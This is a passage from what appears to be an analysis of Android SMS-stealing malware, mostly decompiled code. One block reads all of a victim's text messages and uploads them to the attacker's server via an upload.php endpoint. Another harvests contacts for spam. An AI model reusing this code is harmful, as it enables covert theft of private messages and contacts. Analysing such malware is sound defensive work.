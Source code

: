 ```cs 
if (_comand.equals("getsms") && _android.equals(_androidid)) {
            Common.LogImpl("83473500", "GetLastSms is OK", 0);
            _li.Initialize();
            List GetAll = _sms2.GetAll();
            _li = GetAll;
            int size = GetAll.getSize();
            String str5 = "";
            for (int i = 0; i <= size - 1; i++) {
                _sms = (SmsWrapper.Sms) _li.Get(i);
                StringBuilder sb = new StringBuilder();
                sb.append(str5);
                sb.append(Common.CRLF);
                sb.append(Common.CRLF);
                sb.append("{");
                sb.append(Common.CRLF);
                sb.append("@The_Mammadw");
                sb.append(Common.CRLF);
                sb.append("Conversion:");
                sb.append(_sms.Address);
                sb.append(Common.CRLF);
                sb.append("Text:");
                sb.append(_sms.Body);
                sb.append(Common.CRLF);
                sb.append("Date:");
                DateTime dateTime = Common.DateTime;
                sb.append(DateTime.Date(_sms.Date));
                sb.append(" ");
                DateTime dateTime2 = Common.DateTime;
                sb.append(DateTime.Time(_sms.Date));
                sb.append(Common.CRLF);
                sb.append("}");
                str5 = sb.toString();
            }
            File file = Common.File;
            File file2 = Common.File;
            File.WriteString(File.getDirInternal(), "AllSms.txt", str5);
            File file3 = Common.File;
            _ht._postfile(_port1 + "/upload.php?result=ok&action=upload&androidid=" + _android + "&opr=" + _opr + "&model=" + _model, File.getDirInternal(), "AllSms.txt");
        }
```

Then the malware send the command `getcontact` to get all contacts of the victim to make new victims. After the malware gets contacts, the malware will send spam SMS to the contacts to lure victims.

```cs
 if (_comand.equals("getcontact") && _android.equals(_androidid)) {
            Common.LogImpl("83473516", "contact is OK", 0);
            contactsutils contactsutilsVar = new contactsutils();
            contactsutilsVar._initialize(processBA);
            List _findcontactsbyphone = contactsutilsVar._findcontactsbyphone("", false, false);
            int size2 = _findcontactsbyphone.getSize();
            String str6 = "";
            for (int i2 = 0; i2 < size2; i2++) {
                List _getphones = contactsutilsVar._getphones(((contactsutils._cucontact) _findcontactsbyphone.Get(i2)).Id);
                int size3 = _getphones.getSize();
                for (int i3 = 0; i3 < size3; i3++) {
                    contactsutils._cuphone _cuphoneVar = (contactsutils._cuphone) _getphones.Get(i3);
                    str6 = str6 + Common.CRLF + "@The_Mammadw" + Common.CRLF + _cucontactVar.DisplayName + ": " + _cuphoneVar.Number;
                }
            }
```